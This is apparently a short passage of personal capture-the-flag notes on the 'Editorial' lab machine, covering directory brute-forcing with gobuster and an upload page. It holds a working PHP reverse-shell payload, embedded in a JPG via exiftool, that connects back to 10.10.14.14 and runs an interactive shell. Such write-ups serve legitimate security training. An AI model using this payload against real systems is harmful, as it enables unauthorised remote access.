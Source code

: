 P 80

![[Pasted image 20240919083202.png]]

Gobsuster reveals an upload page

```php
gobuster dir -w /usr/share/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-big.txt -u http://editorial.htb/
```

`/upload`

CMS
2017–2023 Editorial Tiempo Arriba

Using exiftool to put a php payload in a jpg file:

```php
exiftool -Comment='<?php $sock=fsockopen("10.10.14.14",8443);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' tanya.jpg -o polyglot.php
```

![[Pasted image 20240919085111.png]]

It looks like i can provide a URL in the book cover request. 

